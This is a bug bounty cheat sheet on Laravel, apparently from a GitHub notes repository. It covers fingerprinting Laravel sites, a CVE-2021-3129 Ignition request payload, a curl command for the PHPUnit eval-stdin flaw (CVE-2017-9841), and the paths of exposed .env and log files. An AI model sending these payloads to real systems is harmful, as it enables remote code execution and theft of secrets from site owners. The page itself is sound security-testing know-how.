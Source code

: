 
## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/Laravel.md#introduction)

What would you do if you came across a website that uses Laravel?

## How to Detect

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/Laravel.md#how-to-detect)

Usually in the HTTP response there is a header like this `Set-Cookie: laravel_session=`

1. Find the related CVE by checking laravel version

- How to find the laravel version

By checking the composer file in `https://example.com/composer.json`, sometimes the version is printed there. If you found outdated laravel version, find the CVEs at [CVEDetails](https://www.cvedetails.com/vulnerability-list/vendor_id-16542/product_id-38139/Laravel-Laravel.html)

Some example CVE:

- CVE-2021-3129 (Remote Code Execution)

```
POST /_ignition/execute-solution HTTP/1.1
Host: example.com
Accept: application/json
Content-Type: application/json

{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "cve20213129", "viewFile": "php://filter/write=convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"}}
```

2. Laravel 4.8.28 ~ 5.x - PHPUnit Remote Code Execution (CVE-2017-9841)

```
curl -d "<?php echo php_uname(); ?>" http://example.com/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```

3. Exposed environment variables

- Full Path Exploit : [http://example.com/.env](http://example.com/.env)

[![Environment Variables](https://camo.githubusercontent.com/7e4b69ca20ec4619a6960458542dd68bdd04168d98283c78877aa41eea41e940/68747470733a2f2f312e62702e626c6f6773706f742e636f6d2f2d45555478675035584536512f586b6742345379575362492f41414141414141414151412f657174414c4f6a4c4b4b41343673692d6c496f736d366344566d7842796a7a4951434c63424741735948512f73313630302f312e706e67)](https://camo.githubusercontent.com/7e4b69ca20ec4619a6960458542dd68bdd04168d98283c78877aa41eea41e940/68747470733a2f2f312e62702e626c6f6773706f742e636f6d2f2d45555478675035584536512f586b6742345379575362492f41414141414141414151412f657174414c4f6a4c4b4b41343673692d6c496f736d366344566d7842796a7a4951434c63424741735948512f73313630302f312e706e67)

4. Exposed log files

- Full Path Exploit : [http://example.com/storage/logs/laravel.log](http://example.com/storage/logs/laravel.log)

5. Laravel Debug Mode Enabled

- Try to request to [https://example.com](https://example.com) using POST method (Error 405)
- Using [] in paramater (ex:example.com/param[]=0)

[![Laravel Debug Mode](https://camo.githubusercontent.com/bbbd5326a23af45fd1cefd96d0154f507ff2d5d27bbf0479dd05830faf000e1e/68747470733a2f2f6861636b656e2e696f2f77702d636f6e74656e742f75706c6f6164732f323031392f30372f6c61726176656c2d73637265656e2e706e67)](https://camo.githubusercontent.com/bbbd5326a23af45fd1cefd96d0154f507ff2d5d27bbf0479dd05830faf000e1e/68747470733a2f2f6861636b656e2e696f2f77702d636f6e74656e742f75706c6f6164732f323031392f30372f6c61726176656c2d73637265656e2e706e67)

## References

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/Laravel.md#references)

- [Nakanosec](https://www.nakanosec.com/2020/02/common-bug-pada-laravel.html)

